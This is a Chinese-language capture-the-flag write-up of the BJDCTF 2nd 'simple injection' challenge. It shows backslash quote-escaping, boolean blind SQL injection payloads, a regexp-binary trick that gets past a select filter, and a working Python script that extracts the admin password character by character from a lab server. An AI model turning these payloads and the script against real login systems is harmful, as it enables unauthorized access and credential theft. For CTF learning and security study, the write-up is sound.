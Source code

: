 title: BJDCTF 2nd做题记录
author: bmth
tags:
  - BJDCTF 2nd
  - CTF
categories: []
img: 'https://img-blog.csdnimg.cn/20210304212353748.png'
date: 2020-11-01 15:52:00
---
## [BJDCTF 2nd]简单注入
这道题没写出来，又很好奇怎么解的，所以先写一下，最初想了好久才想到可以用`\转义掉'`，然后就开始盲注，发现禁用了select，尝试绕过未果，卡死，看师傅文章才发现可以正则匹配出password，妙呀，先写一下我的思路
`username=\`
`password= or !(1<>1)#`
得到
![](https://img-blog.csdnimg.cn/20200323200401655.png)
发现不一样了，那么就可以开始构造语句了，`or !(!(length(database())<>7)<>1)#`
![](https://img-blog.csdnimg.cn/20200323200929320.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
然后用substr截取得到了数据库名为p3rh4ps，然后就select不出来了，这里改为用regexp，由于直接regexp匹配在3.23.4版本后是不分大小写的，要加上binary关键字，试试爆出password
`username=%5C&password=or password regexp binary 0x5e4f#`其中0x5e4f为^O的16进制编码
![](https://img-blog.csdnimg.cn/20200323204753604.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
说明第一个字为O，依次爆出即可
师傅脚本如下：
```python
import os
import requests as req

def ord2hex(string):
  result = ''
  for i in string:
    result += hex(ord(i))
  result = result.replace('0x','')
  return '0x'+result


url = "http://59edc701-b28a-4a3c-a3cf-06d107c8f72c.node3.buuoj.cn/index.php"
string = [ord(i) for i in 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789']
headers = {
      'User-Agent':'Mozilla/5.0 (Windows NT 6.2; rv:16.0) Gecko/20100101 Firefox/16.0',
      'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
      'Connection':'keep-alive'
    }

res = ''
for i in range(50):
  for j in string:
    passwd = ord2hex('^'+res+chr(j))
     #print(passwd)
    passwd = 'or password regexp binary {}#'.format(passwd)
    data = {
      'username':"admin\\",
      'password':passwd
    }

    r = req.post(url, data=data, headers=headers)
    # print(r.text)
    if "BJD need" in r.text:
      res += chr(j)
      print(res)
      break
```